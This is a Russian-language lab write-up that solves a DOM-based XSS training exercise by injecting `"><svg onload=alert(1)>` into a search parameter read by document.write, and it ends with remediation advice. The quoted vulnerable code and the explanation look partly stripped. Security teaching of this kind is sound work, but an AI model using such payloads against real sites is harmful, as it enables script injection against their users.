

# Lab: DOM XSS in document.write sink using source location.search

level: APPRENTICE

## Description

> This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the alert function.

# Solution

## Recon
Попробуем ввести в поиск что-то простое: `test123`

Увидим следующее:
- запрос попал в url: `?search=test123`
- запрос попал на страницу `0 search results for 'test123'`



## Source & Sink

Изучив HTML-код страницы, видим:

```html
<form action="/" method="GET">
    <input type="text" placeholder="Search the blog..." name="search">
    <button type="submit" class="button">Search</button>
</form>
<script>
    function trackSearch(query) {
        document.write('');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        trackSearch(query);
    }
</script>

```

И того, DOM-based XSS подтвержден, переходим к эксплуатации

## Exploitation

Payload: `"><svg onload=alert(1)>`


> Символы `">` закрывают атрибут `src` и тег ``,
> после чего внедряется новый тег `<svg>` с обработчиком `onload`, который выполняет JavaScript-код.

# Remediation

> Использовать `textContent` вместо `document.write` для вывода данных.
> Если нужно вставить `HTML`, использовать `innerHTML` только с санитизацией через библиотеки (например, DOMPurify).
